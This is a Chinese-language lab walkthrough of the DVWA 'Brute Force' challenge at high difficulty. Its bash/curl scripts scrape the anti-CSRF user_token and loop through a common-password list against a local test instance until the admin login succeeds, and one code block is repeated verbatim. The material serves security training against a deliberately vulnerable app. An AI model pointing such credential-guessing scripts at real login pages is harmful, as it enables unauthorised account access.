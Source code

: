 # 1. **Brute Force**

### 觀察

可以發現多了一組 `user_token` 來阻礙你，每次重整或送出後會改變

```
http://dvwa.localtest/vulnerabilities/brute/index.php? \
username=admin&password=123&Login=Login& \
user_token=d29558d3f146d02653aa0c3afaf87a95#
```

跟被埋在前端的 CSRF token 的概念一樣，所以只要想辦法將它一起送出就 ok 了

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6dcb2c17-07f1-4baa-a9f8-e52ef3d2ac0f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T102614Z&X-Amz-Expires=86400&X-Amz-Signature=de44064ab2931490451f6cf12c973d7c7f9b61bbff723b69491f9b51efeb298c&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

只要在腳本從 DOM 中擷取這段 token 後，送出就行了，接下來就跟 medium 難度一樣，慢慢等待

加上 token 的 request

```bash
# try apssword
curl -v -c cookies.txt -b cookies.txt \
"http://dvwa.localtest/vulnerabilities/brute/index.php?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${TOKEN}#"
```

驗證分別送兩次 curl requst 是可行的，第二個 request (`# try apssword` 這段) 不加上 `-L` 的跳轉參數，以及直接 GET 更新密碼的 endpoint ( `"http://dvwa.localtest/vulnerabilities/brute/index.php?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${TOKEN}#`)

test script

```bash
#!/usr/bin/env bash
# DVWA host
HOST=http://dvwa.localtest
# create cookie and save csrf token
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "${HOST}/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
# save session id
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)

# user & password for login to start tasks
USER=admin
LOGIN_PASSWORD=password

# login at login page
curl -v -L -c cookies.txt -b cookies.txt \
-X POST "${HOST}/login.php" \
--data-raw \
"username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${CSRF}"

# get token at /vulnerabilities/brute page
TOKEN=`curl -v -L -c cookies.txt -b cookies.txt \
"${HOST}/vulnerabilities/brute/?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login#" \
| grep  user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`

echo "---------"
echo $TOKEN
echo "---------"

# try apssword
curl -v -c cookies.txt -b cookies.txt "http://dvwa.localtest/vulnerabilities/brute/index.php?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${TOKEN}#"
```
先手動測試登入後取得 token．接著繼續測試下一個 request 改密碼
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b3ec58d2-cd48-41d9-98d0-9f7cccc1a9c8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T102644Z&X-Amz-Expires=86400&X-Amz-Signature=382242e422760ade49b88941e4b4e45aa70a873372f65a0d2cfa46a759b22ec1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

不看正常登入的部分的話，實際上在 try 密碼的就是這部分

```bash
# read each line of password list file
filename='../10-million-password-list-top-100.txt'

while read line; do
  echo "using user: $USER and password: $line"

  # get token at /vulnerabilities/brute page
  TOKEN=`curl -v -L -c cookies.txt -b cookies.txt \
  "${HOST}/vulnerabilities/brute/?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login#" \
  | grep  user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`

  echo "---------"
  echo $TOKEN
  echo "---------"

  # enter username and password in brute force page: /vulnerabilities/brute/
  RES=`curl -v -c cookies.txt -b cookies.txt "${HOST}/vulnerabilities/brute/index.php?username=${USER}&password=${line}&Login=Login&user_token=${TOKEN}#"`

  if [[ $RES == *"Welcome to the password protected area admin"* ]]; then
    printf "\n 🎉 password found: $line using user: ${USER} token: ${TOKEN}\n"
    exit 0
  else
    printf "\n 🥲 trying password: $line but failed.\n"
  fi

done < $filename
```

不看正常登入的部分的話，實際上在 try 密碼的就是這部分

```bash
# read each line of password list file
filename='../10-million-password-list-top-100.txt'

while read line; do
  echo "using user: $USER and password: $line"

  # get token at /vulnerabilities/brute page
  TOKEN=`curl -v -L -c cookies.txt -b cookies.txt \
  "${HOST}/vulnerabilities/brute/?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login#" \
  | grep  user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`

  echo "---------"
  echo $TOKEN
  echo "---------"

  # enter username and password in brute force page: /vulnerabilities/brute/
  RES=`curl -v -c cookies.txt -b cookies.txt "${HOST}/vulnerabilities/brute/index.php?username=${USER}&password=${line}&Login=Login&user_token=${TOKEN}#"`

  if [[ $RES == *"Welcome to the password protected area admin"* ]]; then
    printf "\n 🎉 password found: $line using user: ${USER} token: ${TOKEN}\n"
    exit 0
  else
    printf "\n 🥲 trying password: $line but failed.\n"
  fi

done < $filename
```

完整的腳本

`brute-force-walkthrough-high.sh`

```bash
#!/usr/bin/env bash
# DVWA host
HOST=http://dvwa.localtest
# create cookie and save csrf token
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "${HOST}/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
# save session id
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)

# user & password for login to start tasks
USER=admin
LOGIN_PASSWORD=password

# login at login page
curl -v -L -c cookies.txt -b cookies.txt \
-X POST "${HOST}/login.php" \
--data-raw \
"username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${CSRF}"

# read each line of password list file
filename='../10-million-password-list-top-100.txt'

start=`date +%s`
while read line; do
  echo "using user: $USER and password: $line"

  # get token at /vulnerabilities/brute page
  TOKEN=`curl -v -L -c cookies.txt -b cookies.txt \
  "${HOST}/vulnerabilities/brute/?username=${USER}&password=${LOGIN_PASSWORD}&Login=Login#" \
  | grep  user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`

  echo "---------"
  echo $TOKEN
  echo "---------"

  # enter username and password in brute force page: /vulnerabilities/brute/
  RES=`curl -v -c cookies.txt -b cookies.txt "${HOST}/vulnerabilities/brute/index.php?username=${USER}&password=${line}&Login=Login&user_token=${TOKEN}#"`

  if [[ $RES == *"Welcome to the password protected area admin"* ]]; then
    end=`date +%s`
    runtime=$((end-start))
    printf "\n 🎉 password found: $line , using user: ${USER} and token: ${TOKEN}\n"
    printf "\n elapsed time: ${runtime}s \n"
    exit 0
  else
    printf "\n 🥲 trying password: $line but failed.\n"
  fi

done < $filename
```

### Done

```bash
./brute-force-walkthrough-high.sh
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f45a381c-9f80-437f-9765-99f5f2e37d5d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T102902Z&X-Amz-Expires=86400&X-Amz-Signature=d4eef44c618e90daeb0740873793ab6cebb6f4fb387c115ed722af71674d7133&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

將正確密碼往下移一點，試試看會花多少時間

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/de310e4a-a1cc-4ef0-bbdc-93103d867dac/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220217%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220217T102925Z&X-Amz-Expires=86400&X-Amz-Signature=078fc79a5390d6edf0ad012b554f2c6934cd53d71ac8b050fd3f19906315de5b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

花了 32 秒
